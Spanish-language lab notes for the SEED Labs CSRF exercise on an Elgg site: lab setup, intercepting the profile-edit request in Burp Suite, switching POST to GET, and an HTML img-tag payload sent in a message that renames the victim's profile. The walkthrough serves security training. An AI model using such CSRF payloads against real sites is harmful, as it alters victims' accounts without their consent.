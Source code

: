 
----
- Tag: #CROSS-SITE #REQUEST #FORGERY #CSRF 
----
>**AVISO (Actualización 11/05/2023)**: Si a la hora de hacer el ‘**docker-compose up -d**‘, os salta un error de tipo: “**networks.net-10.9.0.0 value Additional properties are not allowed (‘name’ was unexpected)**“, lo que tenéis que hacer es en el archivo ‘**docker-compose.yml**‘, borrar la línea número 41, la que pone “**name: net-10.9.0.0**“.

Con hacer esto, ya podréis desplegar el laboratorio sin ningún problema.

El **Cross-Site Request Forgery** (**CSRF**) es una vulnerabilidad de seguridad en la que un atacante **engaña** a un usuario legítimo para que realice una acción no deseada en un sitio web sin su conocimiento o consentimiento.

En un ataque CSRF, el atacante engaña a la víctima para que haga clic en un enlace malicioso o visite una página web maliciosa. Esta página maliciosa puede contener una solicitud HTTP que realiza una acción no deseada en el sitio web de la víctima.

Por ejemplo, imagina que un usuario ha iniciado sesión en su cuenta bancaria en línea y luego visita una página web maliciosa. La página maliciosa contiene un formulario que envía una solicitud HTTP al sitio web del banco para transferir fondos de la cuenta bancaria del usuario a la cuenta del atacante. Si el usuario hace clic en el botón de envío sin saber que está realizando una transferencia, el ataque CSRF habrá sido exitoso.

El ataque CSRF puede ser utilizado para realizar una amplia variedad de acciones no deseadas, incluyendo la transferencia de fondos, la modificación de la información de la cuenta, la eliminación de datos y mucho más.

Para prevenir los ataques CSRF, los desarrolladores de aplicaciones web deben implementar medidas de seguridad adecuadas, como la inclusión de tokens CSRF en los formularios y solicitudes HTTP. Estos tokens CSRF permiten que la aplicación web verifique que la solicitud proviene de un usuario legítimo y no de un atacante malintencionado (aunque cuidadín que también se pueden hacer cositas con esto).

Os compartimos a continuación el enlace al comprimido ZIP que utilizamos en esta clase para desplegar el laboratorio donde practicamos esta vulnerabilidad:

- **Lab Setup**: [https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip)
----
# Empezamos desplegando nuestro laboratorio 

- Descargamos el siguiente comprimido.
```
wget https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip
```

- Lo descomprimimos con
```
unzip Labsetup.zip
```

- Ingresamos a la carpeta y deplegamos el docker 
```
docker-compose up -d 
```

- En este punto deberiamos realizar las siguientes modificaciones en la ruta **/etc/hosts** ya el laboratorio contiene una ip especifica para cada puerto.
```
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.105 www.attacker32.com
```
- En este caso solo nos enfocaremos en el dominio www.seed-server.com para realizar la práctica, eh ingresamos al dominio desde nuestro navegador.
- En este ejemplo usaremos solo dos usuarios y contraseñas que serian creados con nvim un archivo .txt
```
alice:seedalice
samy:seedsamy
```
- Una vez dentro podemos revisar el identificador de usuario con overing
- Y testear o editar esto con burpsuite en usuario no previlegiado
```
burpsuite &> /dev/null & disown
```
- Interceptamos la petición con foxyproxy de cambiarle el nombre en la pagina y ver que pasa con burpsuite
- Vemos que se pide una solicitud por POST /action/profile/edit HTTP/1.1
- Ahora intentaremos cambiar la solicitud por **GET**
- Enviamos al repeater con Ctrl+R
- Ahora refrescamos la pagina y regresamos a la parte donde toca editar el nombre de usuario
- Interceptamos con burpsuite y con click derecho cambiamos a la opción **change request metod** en la información del repeater
- Hacemos una pequeña verificación de datos borrando los codigos en la primera linea del repeater
- Damos click en **SEND** y vemos que nos da una repuesta 302 no found
- Ponemos click en **Follow redirection** y ahora si recargamos de nuevo la pagina debería cambiarse al nombre que ingresamos en el **repeater**
## Ahora ingresamos con el usuario de samy
- Vemos que podemos enviar mensajes a los usuarios, lo que haremos es crear una estructura en **HTML** para enviarle Alice para que lo abra y cambiar su nombre 
- El mensaje seria de la siguiente manera
```HTML
<img src="http://www.seed-server.com/action/profile/edit?name=HACKED&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56"alt="image"width="1"height="1"/>
```
- Enviando esto nos permitiría cambiar el nombre de usuario de la persona que abra el mensaje 

